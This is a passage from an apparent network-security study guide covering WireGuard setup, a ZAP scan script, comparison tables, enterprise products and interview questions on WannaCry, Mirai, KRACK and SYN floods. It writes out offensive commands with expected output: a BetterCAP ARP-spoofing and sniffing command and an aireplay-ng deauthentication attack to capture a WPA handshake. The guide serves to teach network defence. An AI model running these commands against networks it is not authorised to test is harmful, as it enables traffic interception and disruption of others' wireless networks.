# ovpn-server[1234]: client1/203.0.113.5:56789 MULTI: Learn: 10.8.0.6 -> client1/203.0.113.5:56789
```

### 12.7 WireGuard Quick Setup

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/12-7-wireguard-quick-setup-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/12-7-wireguard-quick-setup-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/12-7-wireguard-quick-setup-sticky.svg" target="_blank" rel="noopener">
  
</a>


```bash
# Install WireGuard
apt install wireguard

# Generate server keys
wg genkey | tee /etc/wireguard/server_private.key | wg pubkey > /etc/wireguard/server_public.key

# Generate client keys
wg genkey | tee /etc/wireguard/client_private.key | wg pubkey > /etc/wireguard/client_public.key

# Server configuration
cat > /etc/wireguard/wg0.conf << 'EOF'
[Interface]
Address = 10.0.0.1/24
ListenPort = 51820
PrivateKey = <server-private-key>

# NAT/masquerade for client traffic
PostUp = iptables -A FORWARD -i wg0 -j ACCEPT; iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
PostDown = iptables -D FORWARD -i wg0 -j ACCEPT; iptables -t nat -D POSTROUTING -o eth0 -j MASQUERADE

[Peer]
PublicKey = <client-public-key>
AllowedIPs = 10.0.0.2/32
EOF

# Start WireGuard
systemctl start wg-quick@wg0
systemctl enable wg-quick@wg0

# Verify
wg show

# Expected:
# interface: wg0
#   public key: <server-public-key>
#   private key: (hidden)
#   listening port: 51820
# 
# peer: <client-public-key>
#   endpoint: 203.0.113.5:51820
#   allowed ips: 10.0.0.2/32
#   latest handshake: 1 minute, 30 seconds ago
#   transfer: 42.5 KiB received, 128.3 KiB sent
```

### 12.8 ZAP Proxy → Web Traffic Inspection

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/12-8-zap-proxy-web-traffic-inspection-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/12-8-zap-proxy-web-traffic-inspection-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/12-8-zap-proxy-web-traffic-inspection-sticky.svg" target="_blank" rel="noopener">
  
</a>


```bash
# Install ZAP
apt install zaproxy
# Or download from https://www.zaproxy.org/download/

# Start ZAP in daemon mode (headless)
zap.sh -daemon -port 8081 -host 127.0.0.1

# Configure browser to use proxy 127.0.0.1:8081

# Python script for automated scan
cat > zap-scan.py << 'PYEOF'
from zapv2 import ZAPv2

target = "http://testphp.vulnweb.com/"
zap = ZAPv2(apikey="", proxies={"http": "http://127.0.0.1:8081", "https": "http://127.0.0.1:8081"})

# Spider the target
print("Spidering target...")
scan_id = zap.spider.scan(target)
while int(zap.spider.status(scan_id)) < 100:
    print(f"Spider progress: {zap.spider.status(scan_id)}%")
zap.spider.stop(scan_id)

# Active scan
print("Starting active scan...")
scan_id = zap.ascan.scan(target)
while int(zap.ascan.status(scan_id)) < 100:
    print(f"Scan progress: {zap.ascan.status(scan_id)}%")
zap.ascan.stop(scan_id)

# Report findings
alerts = zap.core.alerts()
print(f"\nTotal alerts found: {len(alerts)}")
for alert in alerts[:10]:
    print(f"  [{alert['risk']}] {alert['alert']} - {alert['url']}")
PYEOF

# Run automated scan
python3 zap-scan.py

# Expected output:
# Spidering target...
# Spider progress: 10%
# ...
# Starting active scan...
# Scan progress: 25%
# ...
# Total alerts found: 15
#   [High] SQL Injection - http://testphp.vulnweb.com/artists.php?artist=1
#   [Medium] Cross-Site Scripting (Reflected) - http://testphp.vulnweb.com/search.php
#   [Low] Web Browser XSS Protection Not Enabled - http://testphp.vulnweb.com/
```

### 12.9 BetterCAP → ARP Spoofing Detection

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/12-9-bettercap-arp-spoofing-detection-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/12-9-bettercap-arp-spoofing-detection-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/12-9-bettercap-arp-spoofing-detection-sticky.svg" target="_blank" rel="noopener">
  
</a>


```bash
# Install BetterCAP
apt install bettercap

# Start BetterCAP
sudo bettercap -eval "set arp.spoof.targets 192.168.1.100; arp.spoof on; net.sniff on"

# Expected output:
# [04:00:00] [sys.log] [inf] arp.spoof: ARP spoofer started targeting 192.168.1.100
# [04:00:00] [sys.log] [inf] net.sniff: started (type: *any*)

# Detection on victim machine (192.168.1.100):
# 1. Check ARP cache
arp -a
# Expected:
# 192.168.1.1 at 00:11:22:33:44:55 [ether] on eth0  ← gateway MAC
# 
# ARP spoofing indicator (two entries for same IP):
# ? (192.168.1.1) at AA:BB:CC:DD:EE:FF on eth0
# ? (192.168.1.1) at 00:11:22:33:44:55 on eth0
# Duplicate entries → ARP spoofing detected

# 2. Detection with arpwatch
arpwatch -i eth0
# Logs: /var/log/arpwatch.log
# Expected alert:
# changed ethernet address (00:11:22:33:44:55 -> AA:BB:CC:DD:EE:FF) 192.168.1.1

# 3. Static ARP entry (prevention)
arp -s 192.168.1.1 00:11:22:33:44:55
```

### 12.10 Airodump/aireplay → Wireless Testing

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/12-10-airodump-aireplay-wireless-testing-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/12-10-airodump-aireplay-wireless-testing-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/12-10-airodump-aireplay-wireless-testing-sticky.svg" target="_blank" rel="noopener">
  
</a>


```bash
# Step 1: Enable monitor mode
airmon-ng start wlan0
# Expected: wlan0mon created

# Step 2: Discover networks
airodump-ng wlan0mon
# Expected:
# BSSID              PWR  Beacons   #Data CH  MB   ENC  CIPHER AUTH ESSID
# 00:11:22:33:44:55 -67  245       1200   6   540  WPA2 CCMP   PSK   CorpNet
# AA:BB:CC:DD:EE:FF -79  89        0      11  130  WPA2 CCMP   PSK   GuestNet

# Step 3: Capture on specific channel and BSSID
airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w capture wlan0mon
# Expected: Beacon/JMX frames, data packets, and [WPA handshake] when client connects

# Step 4: Deauth attack to force handshake capture
aireplay-ng -0 2 -a 00:11:22:33:44:55 -c AA:BB:CC:DD:EE:FF wlan0mon
# Expected:
# 12:34:56  Sending 64 directed DeAuth.  STMAC: [AA:BB:CC:DD:EE:FF] [ 2|22 ACKs]

# Step 5: Verify handshake captured
aircrack-ng capture-01.cap
# Expected:
# Opening capture-01.cap
# Read 1000 packets.
#    #  BSSID              ESSID                     Encryption
#    1  00:11:22:33:44:55  CorpNet                   WPA (1 handshake)
```

---

## Section 13: Comparison Tables

### 13.1 Firewall Type Comparison

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/13-1-firewall-type-comparison-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/13-1-firewall-type-comparison-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/13-1-firewall-type-comparison-sticky.svg" target="_blank" rel="noopener">
  
</a>


| Aspect | Packet Filter | Stateful | Proxy Firewall | NGFW | WAF |
|--------|--------------|----------|---------------|------|-----|
| OSI Layers | 3, 4 | 3, 4 | 7 | 3-7 (all layers) | 7 only |
| Inspection Depth | Headers only | Headers + state | Full protocol | DPI + apps | HTTP/HTTPS |
| Connection Tracking | No | Yes | Yes (dual) | Yes | Yes |
| Application ID | No | No | Yes (per protocol) | Yes (App-ID) | HTTP apps only |
| User Identity | No | No | Limited | Yes (AD/LDAP) | Often |
| TLS Inspection | No | No | Yes (MITM) | Yes | Yes (reverse proxy) |
| Performance | Line rate | Near line rate | Depends on app | DPI-dependent | Moderate |
| Configuration | Simple | Medium | Complex | Complex | Medium |
| Cost | Free | Free | Free (Squid) | Enterprise | $$ |
| Bypass Resistance | Low | Medium | High | High | Medium |

### 13.2 IDS vs IPS vs WAF

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/13-2-ids-vs-ips-vs-waf-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/13-2-ids-vs-ips-vs-waf-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/13-2-ids-vs-ips-vs-waf-sticky.svg" target="_blank" rel="noopener">
  
</a>


| Aspect | IDS | IPS | WAF |
|--------|-----|-----|-----|
| Position | Out-of-band (mirror port) | Inline | Inline (reverse proxy) |
| Action | Alert only | Alert + block | Alert + block |
| Protocol Scope | All IP protocols | All IP protocols | HTTP/HTTPS only |
| Signature Format | Snort/Suricata rules | Snort/Suricata rules | ModSecurity rules |
| Latency Added | None | 1-5ms | 5-20ms |
| Common Bypass | Encryption (if blind) | Encryption | Encoding evasion |

### 13.3 IPsec vs WireGuard vs OpenVPN

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/13-3-ipsec-vs-wireguard-vs-openvpn-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/13-3-ipsec-vs-wireguard-vs-openvpn-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/13-3-ipsec-vs-wireguard-vs-openvpn-sticky.svg" target="_blank" rel="noopener">
  
</a>


| Feature | IPsec (IKEv2) | WireGuard | OpenVPN |
|---------|---------------|-----------|---------|
| Kernel Integration | Yes (strongSwan) | Yes (Linux 5.6+) | No (tun device) |
| Cipher Suite | Multiple options (complex) | ChaCha20+Poly1305 (fixed) | Multiple options |
| Key Exchange | IKEv2 (4-6 messages) | 1-RTT Noise protocol | TLS (complex handshake) |
| Code Quality | 400K+ lines (large attack surface) | ~4K lines (auditable) | 150K+ lines |
| Roaming | MOBIKE (implementations vary) | Built-in (P-E-R roaming) | Reconnect required |
| UDP/443 Deception | Often blocked (ESP = IP 50) | Looks like random UDP | Can use TCP/443 |
| NAT Traversal | IKEv2 + UDP encapsulation | Native | Keepalive required |
| Performance | 500-800 Mbps (AES-NI) | 1-2+ Gbps | 300-600 Mbps |
| Setup Difficulty | High (certificates, profiles) | Low (1 config file each) | Medium |
| Audit History | Many CVEs | Zero CVEs (young) | Few CVEs |

### 13.4 WPA2 vs WPA3

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/13-4-wpa2-vs-wpa3-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/13-4-wpa2-vs-wpa3-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/13-4-wpa2-vs-wpa3-sticky.svg" target="_blank" rel="noopener">
  
</a>


| Feature | WPA2 | WPA3 |
|---------|------|------|
| Key Exchange | 4-Way Handshake (PSK) | SAE (Dragonfly) |
| Encryption | AES-CCMP (128-bit) | AES-GCMP (256-bit) |
| Forward Secrecy | No | Yes |
| Offline Brute Force | Yes (capture handshake) | No (SAE requires online) |
| KRACK Resistance | Vulnerable | Resistant |
| Management Frame Protection | Optional (802.11w) | Mandatory |
| Public Wi-Fi | Open (no encryption) | OWE (individual encryption) |
| IoT Support | Standard | Target Wake Time |

---

## Section 14: Applications in Real Systems

### 14.1 AWS Security Groups (Cloud Firewall)

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/14-1-aws-security-groups-cloud-firewall-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/14-1-aws-security-groups-cloud-firewall-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/14-1-aws-security-groups-cloud-firewall-sticky.svg" target="_blank" rel="noopener">
  
</a>


AWS Security Groups act as stateful virtual firewalls for EC2 instances and other AWS resources.

```json
{
    "IpPermissions": [
        {
            "IpProtocol": "tcp",
            "FromPort": 22,
            "ToPort": 22,
            "IpRanges": [{"CidrIp": "10.0.0.0/24"}]
        },
        {
            "IpProtocol": "tcp",
            "FromPort": 80,
            "ToPort": 80,
            "IpRanges": [{"CidrIp": "0.0.0.0/0"}]
        },
        {
            "IpProtocol": "tcp",
            "FromPort": 443,
            "ToPort": 443,
            "IpRanges": [{"CidrIp": "0.0.0.0/0"}]
        }
    ]
}
```

**Key difference:** Security Groups are stateful (return traffic automatically allowed), while NACLs are stateless (require both inbound and outbound rules).

### 14.2 Cisco Firepower (NGFW)

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/14-2-cisco-firepower-ngfw-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/14-2-cisco-firepower-ngfw-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/14-2-cisco-firepower-ngfw-sticky.svg" target="_blank" rel="noopener">
  
</a>


Enterprise NGFW with:
- Application Visibility and Control (AVC)
- Next-Generation IPS (NGIPS)
- Advanced Malware Protection (AMP)
- URL Filtering
- SSL/TLS Decryption

### 14.3 Cloudflare DDoS Protection

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/14-3-cloudflare-ddos-protection-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/14-3-cloudflare-ddos-protection-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/14-3-cloudflare-ddos-protection-sticky.svg" target="_blank" rel="noopener">
  
</a>


```
Client → Cloudflare Edge (Anycast) → Origin Server

At edge:
- L3/L4: Packet scrubbing (invalid packets dropped)
- L7: Rate limiting, bot management, WAF
- Challenge: JS challenge, CAPTCHA for suspicious traffic
1.1.1.1 + Cloudflare Gateway = DNS filtering + Zero Trust
```

### 14.4 Enterprise Zero Trust (BeyondCorp / Zscaler)

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/14-4-enterprise-zero-trust-beyondcorp-zscaler-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/14-4-enterprise-zero-trust-beyondcorp-zscaler-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/14-4-enterprise-zero-trust-beyondcorp-zscaler-sticky.svg" target="_blank" rel="noopener">
  
</a>


```
User → Device Check → Identity Provider → Context Policy → App Access
   ↓                     ↓
  Workspace ONE      Azure AD Conditional Access
  (device compliance) (MFA, risk score)

Zero Trust Exchange (Zscaler):
- User connects to Zscaler edge (not directly to app)
- Policy applied based on identity + device + context
- App remains hidden (no public DNS/VIP)
- Traffic inspected inline (SSL decryption, DLP, sandbox)
```

### 14.5 Open Source Security Onion

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/14-5-open-source-security-onion-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/14-5-open-source-security-onion-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/14-5-open-source-security-onion-sticky.svg" target="_blank" rel="noopener">
  
</a>


Security Onion is a free Linux distribution for:
- Elasticsearch, Logstash, Kibana (ELK) for log management
- Zeek (formerly Bro) for network analysis
- Suricata for IDS/IPS
- Wazuh for HIDS
- TheHive for case management
- Playbook for automated response

```bash
# Deploy Security Onion
# https://docs.securityonion.net/

# Verify sensors
so-status
# Expected:
#   elasticsearch: running
#   kibana: running
#   suricata: running
#   zeek: running
#   wazuh-manager: running

# Query alerts in Kibana
# Discover → index: so-* → filter: event_type:alert
```

---

## Section 15: Interview Corner → 15 Q&As

### Q1: What is the difference between a stateful and stateless firewall?

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-is-the-difference-between-a-stateful-and-stateless-firewall-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-is-the-difference-between-a-stateful-and-stateless-firewall-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-is-the-difference-between-a-stateful-and-stateless-firewall-sticky.svg" target="_blank" rel="noopener">
  
</a>


**A1:** A stateless firewall (packet filter) examines each packet in isolation based only on header fields (IP, port, protocol). It has no knowledge of connection state. A stateful firewall maintains a connection tracking table that records the state of each session (SYN, SYN-ACK, ESTABLISHED). For example, a stateless firewall would allow an inbound ACK packet even if no corresponding SYN was sent, while a stateful firewall would drop it because no matching connection exists in the table.

### Q2: How does a stateful firewall handle FTP traffic?

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/how-does-a-stateful-firewall-handle-ftp-traffic-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/how-does-a-stateful-firewall-handle-ftp-traffic-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/how-does-a-stateful-firewall-handle-ftp-traffic-sticky.svg" target="_blank" rel="noopener">
  
</a>


**A2:** FTP uses two connections: a control channel (port 21) and a data channel (dynamic port). In active FTP, the server connects back to the client on a random port. A stateful firewall inspects the FTP PORT command on the control channel, extracts the data port number, and dynamically opens that port for the data connection. This is called a "conntrack helper" (nf_conntrack_ftp). nftables equivalent: `ct helper "ftp"`.

### Q3: Explain the difference between IDS and IPS.

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/explain-the-difference-between-ids-and-ips-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/explain-the-difference-between-ids-and-ips-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/explain-the-difference-between-ids-and-ips-sticky.svg" target="_blank" rel="noopener">
  
</a>


**A3:** IDS (Intrusion Detection System) monitors traffic passively via a mirror port or network tap. It generates alerts but cannot block traffic. IPS (Intrusion Prevention System) sits inline between the source and destination and can actively block malicious traffic by dropping packets, sending TCP RST, or updating firewall rules. IDS has no failure impact on traffic; IPS must handle fail-open (traffic bypasses if IPS fails) or fail-close (traffic blocked if IPS fails). IDS is better for forensics and compliance; IPS is better for active prevention.

### Q4: What are the advantages of anomaly-based detection over signature-based detection?

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-are-the-advantages-of-anomaly-based-detection-over-signature-based-detection-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-are-the-advantages-of-anomaly-based-detection-over-signature-based-detection-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-are-the-advantages-of-anomaly-based-detection-over-signature-based-detection-sticky.svg" target="_blank" rel="noopener">
  
</a>


**A4:** Signature-based detection matches traffic against known attack patterns (signatures). It has low false positives but cannot detect unknown attacks, variants, or zero-days. Anomaly-based detection establishes a baseline of normal behavior and flags deviations. It can detect novel attacks and zero-days but has higher false positives and requires a learning period. Example: a signature-based system misses a zero-day exploit that evades all existing signatures. An anomaly-based system flags it because the traffic pattern (e.g., large SMB packet to a server that never uses SMB) deviates from baseline.

### Q5: What is the WPA3-Personal improvement over WPA2-Personal?

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-is-the-wpa3-personal-improvement-over-wpa2-personal-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-is-the-wpa3-personal-improvement-over-wpa2-personal-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-is-the-wpa3-personal-improvement-over-wpa2-personal-sticky.svg" target="_blank" rel="noopener">
  
</a>


**A5:** WPA2 uses a 4-Way Handshake with PSK. An attacker can capture this handshake and crack the password offline. WPA3 uses SAE (Simultaneous Authentication of Equals, based on Dragonfly handshake). SAE provides forward secrecy and requires the attacker to interact with a real Wi-Fi AP for each password guess → offline brute-force is not possible. WPA3 also mandates Protected Management Frames (802.11w) to prevent deauthentication attacks, uses 256-bit AES-GCMP encryption, and provides OWE for public Wi-Fi encryption without a password.

### Q6: What is the KRACK attack?

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-is-the-krack-attack-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-is-the-krack-attack-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-is-the-krack-attack-sticky.svg" target="_blank" rel="noopener">
  
</a>


**A6:** KRACK (Key Reinstallation Attack, CVE-2017-13077) exploits a vulnerability in the WPA2 4-Way Handshake. The attacker forces the victim to reinstall an already-in-use encryption key by replaying the third message of the handshake. This causes nonce reuse, breaking encryption and allowing packet decryption and injection. WPA3 is resistant because SAE derives unique keys per session. Mitigation: patch all Wi-Fi clients and APs (Stagefright-level urgency).

### Q7: How does DNSSEC prevent cache poisoning?

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/how-does-dnssec-prevent-cache-poisoning-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/how-does-dnssec-prevent-cache-poisoning-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/how-does-dnssec-prevent-cache-poisoning-sticky.svg" target="_blank" rel="noopener">
  
</a>


**A7:** DNSSEC adds cryptographic digital signatures to DNS records. Each DNS record has an associated RRSIG (Resource Record Signature) signed by the zone's private key. The resolver validates the signature using the zone's public key (DNSKEY), which is signed by the parent zone's private key (DS record). This creates a chain of trust from the root zone down to the domain. If an attacker injects a fake DNS record, the resolver detects the signature mismatch and discards the record. Without the private key, the attacker cannot forge valid RRSIGs.

### Q8: What is BGP hijacking and how can it be mitigated?

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-is-bgp-hijacking-and-how-can-it-be-mitigated-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-is-bgp-hijacking-and-how-can-it-be-mitigated-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-is-bgp-hijacking-and-how-can-it-be-mitigated-sticky.svg" target="_blank" rel="noopener">
  
</a>


**A8:** BGP hijacking occurs when an attacker's AS advertises IP prefixes it does not own, causing traffic to be rerouted through the attacker's network. In the 2008 YouTube hijacking, Pakistan Telecom announced YouTube's /24 prefix, causing global traffic to be routed to Pakistan. Mitigation: prefix filtering (only accept prefixes the peer should advertise), max-prefix limits (protect against route leaks), TTL security check (GTSM ensures BGP packets came from directly connected peer), and RPKI (validates AS authorization to originate prefixes via signed ROAs).

### Q9: How does a SYN flood work and what are mitigation techniques?

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/how-does-a-syn-flood-work-and-what-are-mitigation-techniques-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/how-does-a-syn-flood-work-and-what-are-mitigation-techniques-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/how-does-a-syn-flood-work-and-what-are-mitigation-techniques-sticky.svg" target="_blank" rel="noopener">
  
</a>


**A9:** A SYN flood sends a large number of TCP SYN packets with spoofed source IPs to a target server. The server allocates memory for each half-open connection (backlog queue) and sends SYN-ACK. Since the SYN-ACKs go to spoofed IPs, they never receive ACKs, so the connections stay in SYN_RCVD state. The backlog queue fills, and legitimate connections are rejected. Mitigation: SYN cookies (kernel encodes connection info in SYN-ACK sequence number, no memory allocated until ACK received), increase tcp_max_syn_backlog, reduce tcp_synack_retries, and use iptables rate limiting.

### Q10: What is the difference between VLAN and VXLAN?

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-is-the-difference-between-vlan-and-vxlan-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-is-the-difference-between-vlan-and-vxlan-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-is-the-difference-between-vlan-and-vxlan-sticky.svg" target="_blank" rel="noopener">
  
</a>


**A10:** VLAN (802.1Q) provides up to 4,094 VLANs (12-bit ID) and operates at Layer 2. It is limited by the 12-bit tag and is typically confined to a single switch or small network. VXLAN (Virtual Extensible LAN) uses a 24-bit VNI (16M segments) and encapsulates Layer 2 frames in UDP (port 4789) for transport over Layer 3 networks. VXLAN enables network virtualization across data centers and is widely used in cloud environments (e.g., Kubernetes Calico, VMware NSX).

### Q11: Describe the WannaCry infection chain.

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/describe-the-wannacry-infection-chain-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/describe-the-wannacry-infection-chain-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/describe-the-wannacry-infection-chain-sticky.svg" target="_blank" rel="noopener">
  
</a>


**A11:** (1) Initial infection via phishing or internal propagation. (2) EternalBlue exploit (MS17-010) targets SMBv1 buffer overflow → attacker crafts a malformed SMB TRANS2 request, overwrites kernel memory, and gains remote code execution. (3) DoublePulsar backdoor installed via the EternalBlue shellcode. (4) WannaCry ransomware delivered through DoublePulsar. (5) Each file encrypted with AES-128 key, then AES key encrypted with RSA-2048 public key. (6) Propagation: WannaCry scans LAN IPs for SMBv1 hosts and repeats EternalBlue exploitation. (7) Exponential spread across flat networks (NHS worst affected). (8) Kill switch: checked malwaredomain[.]com → when Marcus Hutchins registered the domain, the malware stopped spreading.

### Q12: How does Mirai infect IoT devices?

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/how-does-mirai-infect-iot-devices-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/how-does-mirai-infect-iot-devices-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/how-does-mirai-infect-iot-devices-sticky.svg" target="_blank" rel="noopener">
  
</a>


**A12:** Mirai continuously scans the internet for IoT devices (DVRs, cameras, routers) with open telnet (port 23) or SSH (port 22). It attempts 62 hardcoded default credentials like "root:root", "admin:admin", "support:support". On successful login, it downloads and executes the bot binary via wget or tftp. The bot connects to a CNC server for commands. For attack, the bot can generate SYN floods, UDP floods, HTTP floods, and GRE tunnels. The bot continues scanning random /8 and /16 network ranges for new victims.

### Q13: How is micro-segmentation different from traditional VLAN segmentation?

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/how-is-micro-segmentation-different-from-traditional-vlan-segmentation-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/how-is-micro-segmentation-different-from-traditional-vlan-segmentation-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/how-is-micro-segmentation-different-from-traditional-vlan-segmentation-sticky.svg" target="_blank" rel="noopener">
  
</a>


**A13:** VLAN segmentation divides the network into broadcast domains at Layer 2, with ACLs for inter-VLAN traffic. It is limited to 4,094 VLANs and requires switch configuration per segment. Micro-segmentation implements per-workload, per-application security policies at the hypervisor or container level (e.g., Kubernetes NetworkPolicy, VMware NSX). It supports unlimited segments (16M VXLAN VNIs), dynamic policy updates without physical reconfiguration, and enforces default-deny for all traffic between workloads. Micro-segmentation is essential for zero trust networking.

### Q14: What is the best practice for deploying wireless in an enterprise?

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-is-the-best-practice-for-deploying-wireless-in-an-enterprise-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-is-the-best-practice-for-deploying-wireless-in-an-enterprise-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-is-the-best-practice-for-deploying-wireless-in-an-enterprise-sticky.svg" target="_blank" rel="noopener">
  
</a>


**A14:** (1) Use 802.1X/EAP-TLS with certificate authentication for all enterprise devices. (2) WPA3-Enterprise with SAE. (3) Separate SSIDs for corporate, guest, and IoT (with VLAN isolation). (4) Enable Protected Management Frames (802.11w). (5) Deploy WIPS for rogue AP detection. (6) NAC integration for device compliance check. (7) Daily wireless survey to detect interference and rogue APs. (8) Disable unnecessary features (WPS, SSID broadcast.  (9) Use FreeRADIUS with AD/LDAP integration. (10) Certificate enforcement for all client devices.

### Q15: How does zero trust differ from traditional perimeter security?

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/how-does-zero-trust-differ-from-traditional-perimeter-security-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/how-does-zero-trust-differ-from-traditional-perimeter-security-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/how-does-zero-trust-differ-from-traditional-perimeter-security-sticky.svg" target="_blank" rel="noopener">
  
</a>


